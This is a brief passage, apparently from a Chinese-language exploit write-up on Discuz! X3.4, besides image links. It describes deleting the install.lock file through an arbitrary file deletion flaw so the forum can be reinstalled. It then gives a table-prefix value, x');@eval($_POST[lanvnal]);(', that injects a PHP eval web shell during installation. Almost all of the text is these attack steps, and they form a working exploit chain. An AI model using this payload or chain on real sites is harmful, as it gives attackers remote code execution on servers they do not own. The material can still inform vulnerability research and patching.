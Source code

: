 ![](resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId27.png)

通过文件删除漏洞删除data目录下的`install.lock`文件就可以重新安装。

安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`
